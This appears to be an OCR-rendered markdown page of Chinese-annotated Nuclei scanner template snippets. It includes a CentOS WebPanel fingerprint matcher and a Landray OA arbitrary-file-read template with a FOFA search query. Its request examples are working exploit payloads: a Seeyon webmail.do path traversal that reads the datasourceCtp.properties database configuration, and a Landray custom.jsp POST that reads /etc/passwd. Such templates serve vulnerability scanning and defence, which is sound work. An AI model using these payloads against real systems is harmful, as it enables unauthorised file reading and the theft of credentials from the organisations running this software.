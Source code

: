 ```yaml
        words:
          - 'Login | CentOS WebPanel'
          - 'CWP |用户'
          - 'http://centos-webpanel.com'
          - 'CentOS WebPanel'
        condition: or

      - type: word
        part: header
        words:
          - "cwpsrv"
```

---

### 开头

```yaml
id: landray-oa-fileread

info:
  name: landray-oa-fileread
  author: ffffffff0x
  severity: high
  description: |
    蓝凌OA custom.jsp 任意文件读取漏洞,这个OA遇到的比较少
    FOFA: app="Landray-OA系统"
  reference: https://github.com/chaitin/xray/pull/1213
  tags: fileread,landray
```

---

### Web

#### Get

```yaml
requests:
  - method: GET
    path:
      - "{{BaseURL}}/seeyon/webmail.do?method=doDownloadAtt&filename=index.jsp&filePath=../conf/datasourceCtp.properties"
```

#### POST

```yaml
requests:
  - method: POST
    path:
      - "{{BaseURL}}/sys/ui/extend/varkind/custom.jsp"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: 'var={"body":{"file":"file:///etc/passwd"}}'
```
